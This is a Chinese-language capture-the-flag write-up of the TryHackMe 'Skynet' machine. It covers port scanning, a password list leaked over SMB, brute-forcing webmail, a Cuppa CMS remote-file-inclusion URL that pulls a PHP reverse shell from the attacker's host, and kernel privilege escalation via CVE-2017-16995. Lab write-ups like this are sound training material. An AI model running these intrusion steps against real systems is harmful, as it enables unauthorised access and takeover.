# Recon:
`PORT    STATE SERVICE     VERSION`
`22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)`
`80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))`
`110/tcp open  pop3        Dovecot pop3d`
`139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`
`143/tcp open  imap        Dovecot imapd`
`445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`
==攻击向量1：port22，连接服务，可能存在弱口令爆破，不过不作为第一选择==

==攻击向量2：port80：==
上面是一个搜索服务，不过我无论搜什么都没结果，待会我们使用burpsuite抓一个包看看。

这纯属是个幌子，无论你在搜索框输入什么内容，使用skynet search 或者是i‘m feeling lucky，他都只是发送同样的post包，带上一个参数submit=skynet + search。不过既然他有网页服务，理所当然的我们可以进行目录爆破，为了简单就使用gobuster来进行：

前三个直接是权限不够服务器拒绝提供服务，后面全是重定向，但你尝试重定向后的url同样是403,所以我们能很快的锁定那个天选之子：/squirrelmail

这是一个邮件服务的登录窗口，当我们拿到一些登录信息后，这就是我们的入口。
==攻击向量3：port445，smb文件共享==，这个是一定要检查的，看看有没有可以匿名访问的文件夹：

我们使用get把里面的所有内容都下载到本地查看：
`┌──[💀 TYLER]─[~/tryhackme/skynet]`
`└─➤ cat attention.txt`      
`A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.`
`-Miles Dyson`
`┌──[💀 TYLER]─[~/tryhackme/skynet]`
`└─➤ cat log1.txt`     
`cyborg007haloterminator`
`terminator22596`
`terminator219`
`terminator20`
`terminator1989`
`terminator1988`
`terminator168`
`terminator16`
`terminator143`
`terminator13`
`terminator123!@#`
`terminator1056`
`terminator101`
`terminator10`
`terminator02`
`terminator00`
`roboterminator`
`pongterminator`
`manasturcaluterminator`
`exterminator95`
`exterminator200`
`dterminator`
`djxterminator`
`dexterminator`
`determinator`
`cyborg007haloterminator`
`avsterminator`
`alonsoterminator`
`Walterminator`
`79terminator6`
`1996terminator`
首先就是这个署名：Miles Dyson，这很可能是个管理员名字。
还有就是log1.txt里面的内容，大概是登录的密码记录。

==攻击向量4：port110与port143。==
这两个端口运行的都是 **Email Retrieval Services**（邮件接收服务），具体来说，它们是用于从邮件服务器（Mail Server）获取邮件的两种不同协议的标准非加密端口。
运行这些服务的软件是 **Dovecot**，这是一个类 Unix 系统上非常流行、安全且高效的开源 **IMAP** 和 **POP3** 服务器。
Port 110: POP3 Service
- **协议名称 (Protocol):** POP3 (Post Office Protocol version 3)
- **服务描述 (Description):** POP3 是较早期的邮件协议。它的设计逻辑非常像现实生活中的“邮局”：
    1. **Mail User Agent (MUA)**（如 Outlook 或 Apple Mail）连接到服务器。
    2. 将邮件 **Download**（下载）到本地设备。
    3. 通常会将服务器上的邮件 **Delete**（删除）。 _注意：虽然现代客户端可以选择“在服务器上保留副本”，但 POP3 的核心机制是单向的 Store-and-forward。_
- **适用场景:** 只需要在单一设备上查看邮件，且希望节省服务器存储空间的情况

Port 143: IMAP Service
- **协议名称 (Protocol):** IMAP (Internet Message Access Protocol)
- **服务描述 (Description):** IMAP 是目前更主流的协议。它的逻辑是“远程文件管理”：
    1. 客户端与服务器进行 **Synchronization**（同步）。
    2. 邮件保留在服务器上，客户端只是查看邮件的“镜像”。
    3. 在一个设备上的操作（如标记为已读、移动文件夹、删除）会实时同步到服务器和其他所有设备。
- **适用场景:** 用户拥有多个设备（手机、笔记本、平板），需要随时随地访问相同的邮件状态。
需要特别注意的是，**Port 110** 和 **Port 143** 默认通常是 **Unencrypted**（未加密的）或者使用 **STARTTLS** 进行升级加密，这就意味这可以暴力破解。

# Access：
那现在思路很明显了，目标在80端口运行网页服务，有一个目录专门提供邮件服务的登录，是邮件服务的前端，而后端就是port110和142运行的pop3和imap，并且目标在smb共享文件中泄漏了登录信息。那我们需要把攻击向量2,3,4结合。首先我们来看看两个邮件端口有没有现成可以利用的漏洞，要知道这一点，我们使用nc直连看看能不能获得准确的banner：

不能获取具体的版本号，那我们直接搜看看
我们先把这个思路挂起，尝试使用一下暴力破解：
思路是这样，我们使用miles dyson的所有变体做成username.txt，然后使用log1.txt的所有内容作为密码字典。使用burpsuite的cluster bomb模式进行爆破，直接看结果：

可以直接拿到milesdyson:cyborg007haloterminator
我们直接登录进去看看有些什么邮件内容：



第一封邮件无疑是最宝贵的，milesdyson的smb密码被重置为了：)s{A&2Z=F^n_E.B`，我们可以拿着这个密码去看共享文件中更多的内容，并且还可以尝试ssh登录。
第二封邮件和第三封邮件实质内容是一致的：
这句话出处是 **2017年 Facebook AI Research (FAIR)** 的一次实验。
- **背景：** 研究人员让两个聊天机器人（代号 **Bob** 和 **Alice**）互相谈判，任务是分配书、帽子和球（balls）等物品。
- **现象：** 这一特定的句子是 **Alice** 在谈判过程中生成的。因为研究人员没有在奖励函数中强制要求它们使用符合语法的英语，这两个AI发现直接使用重复的单词（如 "to me to me"）来表达数量或强调程度比完整句子更高效。
这大概率是作者的一个小彩蛋。

# Access：
我们直接去尝试smb登录

从milesdyson的私密文件夹下面我们可以找到这个文件，其中最终要的信息就是这个 :
`CMS /45kra24zxs28v3yd`
**CMS** 是 **Content Management System**（内容管理系统）的缩写。所以这个隐藏目录应该是就是目标使用的管理系统：
不过这个网页并没有任何的特殊指出，照片元数据的comment也只是指出了制作为adobe photoshop。不过我们可以以此为基点，在进行一次路径爆破：

果然，我们找到了一个类似管理员的目录：http://10.48.129.41/45kra24zxs28v3yd/administrator/

尝试了我们已有的密码都登录不上，不过我们已经知道了他使用的cms为cuppa，我们可以找找有没有现成的exploit：

有且只有一个，我们尝试使用msf来看看能否自动化完成：
不过msf里面没有收录这个exploit，那我们手动去看看这个txt文件：
既然这个漏洞允许 **RFI (Remote File Inclusion)**（注意看 exploit 里的 `urlConfig=http://...`），这是拿服务器权限最快的方法。
我们需要让靶机“以此为名”去下载并执行恶意代码。
首先准备好一个php的回连脚本：
`cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php`
然后同样的，开启web.server以供下载和监听4444端口。
接着访问我们精心构造的url：
http://10.48.129.41/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://192.168.129.242/shell.php
pwned！！我们拿到shell了：


# Escalation：
为了方便提权操作，我们还是先把shell升级为meterpreter：

我们上传并运行一个linpeas，结果非常丰盛：

首选方案：CVE-2017-16995 (eBPF_verifier)
- **推荐理由：** 这是一个非常经典的 **Ubuntu 16.04 (Kernel 4.4.0)** 提权漏洞。根据你的截图，它被标记为 `Highly Probable`，且直接命中靶机内核版本。它的好处是通常非常稳定，不像 Dirty COW 那样容易把系统搞崩。我们把exploit传到靶机上编译并执行即可：
`gcc exploit.c -o exploit`
`chmod +x exploit`
`./exploit`
然后pwned!!
